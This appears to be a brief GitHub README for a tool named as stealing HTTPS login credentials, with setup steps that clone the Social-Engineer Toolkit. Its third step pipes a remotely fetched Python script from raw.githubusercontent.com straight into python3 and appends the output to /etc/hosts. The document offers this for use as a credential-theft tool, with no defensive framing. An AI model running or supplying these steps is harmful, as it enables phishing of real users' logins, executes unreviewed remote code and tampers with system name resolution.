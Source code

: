 # SSTC-login-credentials-HTTPS stealing credentials
- by nu11secur1ty

![](https://github.com/nu11secur1ty/SSTC-HTTPS-login-credentials/blob/master/logo/http.png)

1. - 
`pip install -r requirements.txt`

2. -
```
$ git clone https://github.com/trustedsec/social-engineer-toolkit/ set/
$ cd set
$ pip install -r requirements.txt
```
3. -
```bash
curl -s https://raw.githubusercontent.com/nu11secur1ty/SSTC-HTTPS-login-credentials/master/hosts/modules/pyexploitcreate/pyexploitcreateIP_host_fake.py | python3 >> /etc/hosts
```
